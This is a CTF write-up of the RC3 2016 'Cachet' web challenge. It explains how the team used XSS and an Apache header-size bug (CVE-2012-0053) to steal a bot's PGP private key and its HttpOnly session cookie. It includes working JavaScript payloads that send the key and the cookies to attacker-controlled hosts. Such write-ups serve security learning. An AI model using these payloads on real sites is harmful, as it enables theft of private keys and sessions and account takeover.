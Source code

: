 #### Cachet, a web challenge from RC3 CTF 2016
---

Cachet was a messaging service where the user can send messages (encrypted and decrypted on the client) to others. A PIN, verified by the server, is required before you can view an encrypted message. 

The source code for the challenge itself is available at https://drive.google.com/file/d/0B3HqJpgroLZxMHBGU1QtcVc4UUU/view.

tl;dr: XSS the user to get their private key, abuse an old Apache server on another port to get the HttpOnly cookie and thus the encrypted flag.

We quickly found an XSS vulnerability in the PGP message itself. This is only sent to the client after the PIN is confirmed, but this turned out to be irrelevant.

Our first payload attempted to steal the PGP key by hooking `onkeypress`, but the bot did not trigger this, so we instead overwrote the `decryptMessage()` function:
```javascript
function decryptMessage() {
    $.ajax({
      url: "http://xx.xx.xx.xx/recv.php",
      data: {x: $("#privkey").val(), y: $("#msg-subject").val()},
    });
}
```

Having the private key, we now needed the message to decrypt. After retrieving the list of messages from `read.php`, we saw the flag was in message #2 and the PIN was Julian Assange's birthday (as indicated by their subjects). We first tried simply retrieving message #2, but the application checked the `Referer` header to ensure the request was coming from the right page. Since we were coming from a different message, this check was failing. You cannot overwrite the `Referer` header in an AJAX request, and the cookies were marked HttpOnly, so we were temporarily stuck.

Eventually, we discovered a development server running on port 8080. While this was a non-functional version of the application, it was running an old version of Apache. It also had an `Access-Control-Allow-Origin` header set to the original site, allowing us to make AJAX requests (with cookies!) to it. This particular version of Apache was vulnerable to CVE-2012-0053, a vulnerability that will echo back sent cookies if you exceed Apache's header size limit. This allowed us to compromise the session cookie, which is marked HttpOnly, for the user using a modified exploit:
```javascript
function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+";path=/";
        }
        document.cookie = cookie;
    }
}
 
function makeRequest() {
    setCookies();
 
    function parseCookies () {
        var cookie_dict = {};
        // Only react on 400 status
        if (xhr.readyState === 4 && xhr.status === 400) {
            // Replace newlines and match <pre> content
            var content = xhr.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);
            if (content.length) {
                // Remove Cookie: prefix
                content = content[1].replace("Cookie: ", "");
                var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);
                // Add cookies to object
                for (var i=0; i<cookies.length; i++) {
                    var s_c = cookies[i].split('=',2);
                    cookie_dict[s_c[0]] = s_c[1];
                }
            }
            // Unset malicious cookies
            setCookies(true);
            $.ajax({
              data: {c: JSON.stringify(cookie_dict)},
              url: "http://ec2-xx-xx-xx-xx.compute-1.amazonaws.com/c.php",
            });
        }
    }
    // Make XHR request
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = parseCookies;
    xhr.open("GET", "http://54.172.225.153:8000", true);
    xhr.withCredentials = true;
    xhr.send(null);
}
 
makeRequest();
```

This sent us the cookie for the user, allowing us to read the message (which contained the flag) and decrypt it with the previously stolen key.
